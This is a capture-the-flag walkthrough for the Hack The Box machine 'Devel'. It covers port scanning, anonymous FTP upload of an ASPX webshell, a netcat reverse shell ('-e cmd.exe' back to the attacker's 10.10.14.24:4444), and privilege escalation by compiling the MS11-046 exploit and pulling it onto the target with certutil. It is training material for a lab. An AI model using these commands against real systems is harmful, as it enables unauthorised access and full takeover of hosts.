 # Devel 

**Links:** [1](https://www.hackthebox.com/machines/Devel)  [2](https://app.hackthebox.com/machines/Devel)

**Machine ip:** 10.10.10.5

![devel](https://github.com/h4md153v63n/CTFs/assets/5091265/9ab7e4a6-088a-4d20-88e1-5bc25641cfa1)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.5 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.5 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fd580f7a-f9d8-4301-9fd7-82b27bb870e8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/346d5392-a21f-4dde-b88b-5d98570477a1)


## Enumeration
```
ftp anonymous@10.10.10.5

# or

ftp 10.10.10.5

Name (10.10.10.5:kali): anonymous
Password:

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5149c861-836c-4c01-adf3-c5e5c3ad24d8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/239327b2-ccb6-453a-9645-357665efbd90)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8f62462c-3a38-4713-85c3-4d48866cbec0)


## Exploitation & Gaining Access
Download, and transfer asp webshell using [cmd.aspx](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx).

**Alternatively**, use **msfvenom** [1](https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/devel-writeup-w-o-metasploit#id-4ff1) [2](https://systemweakness.com/htb-devel-4a205fd1aa25)

```
# On the target machine with ftp connection:
put cmd.aspx

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cf0496fc-5036-426f-9943-52b96ec96bd1)

Navigate to "http://10.10.10.5/cmd.aspx", and get a webshell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a37e66b5-b01c-4d6a-b2bb-bd8c4c0b464b)

Trigger the reverse shell:

```
# On the kali attack vm:
ls /usr/share/windows-binaries

smbserver.py tmp /usr/share/windows-binaries

nc -lnvp 4444

# On the webshell:
Program: \\10.10.14.24\tmp\nc.exe

Arguments: -e cmd.exe 10.10.14.24 4444

Run
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/34e2978a-e667-4b52-be83-934e27050b5a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78cf0d24-8148-458c-9b1d-bb9f20707968)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1f5378dd-6bf9-42f4-86ab-3d02c331d11b)


## Privilege Escalation

### Method 1: [**CVE-2011-1249**](https://www.exploit-db.com/exploits/40564) / MS11-046 - Manual Solution
```
# On the target machine:
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/89b2ddc2-3b53-41b6-9dc8-56745f3290dc)

Search  **windows 7 build 7600 x86 privilege escalation** on the internet.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5f6364c1-4f41-4730-be7a-50517bec0105)

Donwload, and try [**CVE-2011-1249**](https://www.exploit-db.com/exploits/40564).

```
# On the kali attack vm:
searchsploit ms11-046

searchsploit -m 40564

sed -n '60,70p' 40564.c
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ab0cef06-f654-4927-88ed-0cc94bdc4a2f)

```
# On the kali attack vm:
# Compile:
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32

sudo python3 -m http.server

# On the target machine:
cd Users\Public\Downloads

certutil.exe -urlcache -split -f "http://10.10.14.24:8000/MS11-046.exe" MS11-046.exe

MS11-046.exe
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bdb02526-aad4-4391-86f4-7160e7e7ab36)


### Method 2: MS10-015 / ms15_051 / ms14_058 / ms13_053 - Metasploit Solution
+ Solution **MS10-015** [1](https://0xdf.gitlab.io/2019/03/05/htb-devel.html#privesc-alternative-with-metasploit) [2](https://medium.com/@crn33/htb-devel-walkthrough-e9afa95fc21b) [3](https://infosecwriteups.com/devel-from-hackthebox-21c6436acf52)
+ Solution **ms15_051** [1](https://medium.com/@JAlblas/hack-the-box-devel-guided-mode-walkthrough-f83f5b803ce7)
+ Solution **ms14_058** [1](https://ethicalhacs.com/devel-hackthebox-walkthrough/)
+ Solution **ms13_053** [1](https://blog.yekki.co.uk/htb-devel/)


### Method 3: Juicy Potato
+ Solution **Juicy Potato** [1](https://rizemon.github.io/posts/devel-htb/) [2](https://yogeshwarram-g.gitbook.io/hackthebox/windows/devil#privilege-escalation)


# References & Alternatives
+ https://vvmlist.github.io/#devel
+ https://systemweakness.com/htb-devel-4a205fd1aa25
+ https://github.com/7h3rAm/7h3rAm.github.io/blob/master/_posts/htb-devel.md
+ rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/devel-writeup-w-o-metasploit
+ https://ivanitlearning.wordpress.com/2020/07/30/hackthebox-devel/
+ https://0xdf.gitlab.io/2019/03/05/htb-devel.html
  + https://medium.com/@JAlblas/hack-the-box-devel-guided-mode-walkthrough-f83f5b803ce7
  + https://medium.com/@crn33/htb-devel-walkthrough-e9afa95fc21b
  + https://ethicalhacs.com/devel-hackthebox-walkthrough/
  + https://blog.yekki.co.uk/htb-devel/


## CVE Scripting
+ **CVE-2011-1249 / MS11–046 / afd.sys** https://www.exploit-db.com/exploits/40564
  + https://github.com/abatchy17/WindowsExploits/blob/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046/40564.c


## Tools
+ **webshell / cmd.aspx:** https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx
  + https://github.com/nikicat/web-malware-collection/blob/master/Backdoors/ASP/cmd.aspx
  + https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/FuzzDB/cmd.aspx
  + /usr/share/davtest/backdoors/aspx_cmd.aspx
  + /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
  + https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx
+ **msfvenom:** https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom
+ **nishang / Invoke-PowerShellTcp:** https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1


## Technical Knowledge
+ **Watson:** https://github.com/rasta-mouse/Watson
+ **Windows Exploits:** https://github.com/abatchy17/WindowsExploits
  + https://github.com/abatchy17/WindowsExploits/blob/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046/40564.c
+ **Windows Exploit Suggester:** https://github.com/AonCyberLabs/Windows-Exploit-Suggester


## Problems Solution
+ -


## For More
+ **Juicy Potato:** https://github.com/ivanitlearning/Juicy-Potato-x86/releases
  + https://github.com/ivanitlearning/Juicy-Potato-x86
